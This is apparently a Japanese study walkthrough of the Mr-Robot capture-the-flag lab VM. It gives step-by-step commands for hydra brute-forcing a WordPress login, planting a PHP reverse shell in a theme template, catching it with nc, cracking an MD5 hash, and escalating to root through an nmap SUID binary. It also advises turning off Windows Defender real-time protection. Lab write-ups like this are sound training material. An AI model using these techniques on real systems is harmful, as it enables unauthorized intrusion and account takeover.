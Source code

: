 ## Mr-Robot 788~

## ダウンロードできない問題
- WindowsDefenderがウィルスを感知してダウンロードできないので、ネットでoffにするのを調べてからダウンロードする。ダウンロードしたら、Defenderをまた有効にする

1. 「スタート」ボタン-「設定」の順にクリックします。
2.  Windowsの設定が表示されたら、「更新とセキュリティ」- 「Windows セキュリティ」-「ウイルスと脅威の防止」の順にクリックします。
3.  Windowsのセキュリティ画面が表示されたら、「ウイルスと脅威の防止の設定」にある「設定の管理」をクリックします。
4. 「リアルタイム保護」の設定を「オフ」に切り替えて、「はい」をクリックします。

## Gobusterはしない
- 多くのアクセスをするとサーバからアク禁になるようなのでしない

### ポートスキャンまで同じ
- 22はcloseになっているので注意
- 80, 443
### ブラウザでアクセスする
- サイトを探索する
- robots.txtを見る
  - `curl $IP/robots.txt`


### ダウンロードしたファイルの整理
- このファイルはhydraの辞書として使う。
- `wget http://192.168.56.116/key-1-of-3.txt`
- `wget http://192.168.56.116/fsocity.dic`
- fsocity.dicの中味を確認して、多いので整理する
  - `cat fsocity.dic`
  - `wc fsocity.dic`
  - `cat fsocity.dic | sort | uniq > filtered_fsocity.dic`

### 解きやすいように小さいファイルを作る
- ここではユーザ名とパスワードがわかっているとして、学習のため小さいファイルを作る
- `grep -A 5 -B 10 ER28 filter_fsocity.dic > short-txt.dic`
- `grep -C 10 elliot filter_fsocity.dic >> short-txt.dic` 

### NIKTO
- `nikto -h $URL` 結構時間がかかる
- いくつかサイトがあるのでメモっておく
  - `/wp-login.php` 
  - `/license.txt`

### ユーザログインのパスワードを見つける(4通りある)
- ~(1)ファイルに書いてある~
  - ~`/license.txt`の一番下に怪しい文字列があるのでコピーしておく、さっきの文字列の最後に`=`があったのでbase64で暗号化されていると思われるので、でコードする~
  - ~`echo ペースト | base64 --decode`~
  - ~ユーザ名(elliot)とパスワード(ER28-0652)がわかる~
- (2)hydraを使う
  - `hydra $IP -L short-txt.dic -p test http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:username"`
  - elliotが見つかる
  - `hydra $IP -l elliot -P short-txt.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:is incorrect"` 
  - (補足) 辞書にはさまざまあるが、名前だけの辞書もあるので、これを使う。/usr/share/wordlists/wfuzz/others/names.txtを使う
      


### wordpressのユーザにログインする
- `http://192.168.56.116/wp-login`
- ユーザ名とパスワードを入力するとダッシュボードにアクセスできる

### phpリバースシェルの準備
- この3つのどちらからでもいいのでコードをコピーしてくる
  - `cd /usr/share/webshells/php`
  - `cat php-reverse-shell.php`
  
- ダッシュボードで`Appearance`->`Editor`->`404 Template`を選んで、一度全部削除してさっきのコピーをペーストする
- コードの中の一部を書き換える
  - IPアドレスをParrotOSのアドレス
  - ポート番号は5555とする
- 下の方にupdate fileボタンがあるので押す

### リバースシェルの待ち受け
- ParrotOSでもうひとつターミナルを開けて次のコマンドを打つ
- `nc -nlvp 5555`
  - もしncコマンドがなければ、NATにつなげて`sudo apt install netcat-traditinal`でインストールする 
- ブラウザでサイトにアクセスするとシェルを取得できる
  - `http://ターゲットサーバのIPアドレス/404.php`
- いつも通りにPythonで対話型シェルにする
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - daemonユーザになる


### daemonユーザでいつもの試す
- ユーザを取得したらすること
- `sudo -l` パスワードがわからない
- `SUID`を探す
  - `find / -perm /4000 -type f 2>/tmp/2`

### システム内を探索する
- `cd /home/robot ; ls`
- `cat password.raw-md5`暗号があるので、コピーする
- 解読させる方法は3通りある

### (1)オンラインハッシュクラッカーでハッシュ値を解読する
- 本ではサイトを使っている。md5は元に戻せないので、オンラインサイト(Crack Station)の辞書で戻す

### (2)hashcatでハッシュ値を解読する
- c3fのとこにペーストする
- `hashcat 'c3f~' /usr/share/wordlists/rockyou.txt -m 0`

### (3)john the ripperでハッシュ値を解読する
- なぜか、これはできない
- john the ripperでもできる。ただし暗号の種類が書いていないので--fomatで自分で指定する。しないとエラーになる
- hash.txtは`ユーザ名:ハッシュ値`の形式にする
- `sudo john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
- `sudo john --show --format=raw-md5 hash.txt`

### 別のユーザに切り替える
- `su robot`

### SUIDファイルを探索する
- `find / -perm -u=s  -type f 2> /dev/null`

### SUIDファイルを利用して、ルートシェルを取得する
- `nmap --interactive`
- `!sh`

### フラグを取得する
- `cd /root; cat key-3-of-3.txt`
